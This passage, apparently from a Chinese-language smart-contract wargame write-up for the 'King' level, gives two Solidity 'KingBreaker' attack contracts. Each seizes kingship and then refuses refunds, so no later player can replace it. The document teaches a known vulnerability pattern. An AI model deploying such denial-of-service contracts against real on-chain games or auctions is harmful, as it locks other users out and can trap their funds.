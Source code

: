 ## 攻击合约

### 方法一

部署一个没有 `receive` 或 `fallback` 函数的合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingBreaker {
    constructor(address _king) payable {
        // 将此合约设置为 King 合约的 King
        (bool success, ) = _king.call{value: msg.value}("");
        require(success, "Transfer failed.");
    }
}
```

### 方法二

这种方式稍微复杂一点，写一个合约，提供一个 `sendEth` 函数来主动向 `King` 合约发送以太币，但该合约的 `receive` 或 `fallback` 函数将确保无法接受任何返回的以太币，从而阻止任何新的玩家成为 King。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingBreaker {
    address public king;

    constructor(address _king) payable {
        king = _king;
        sendEth();
    }

    function sendEth() public payable {
        (bool success, ) = king.call{value: msg.value}("");
        require(success, "Transfer failed.");
    }

    // 不接收任何以太币
    fallback() external payable {
        revert("I am the King now!");
    }

    receive() external payable {
        revert("I am the King now!");
    }
}
```
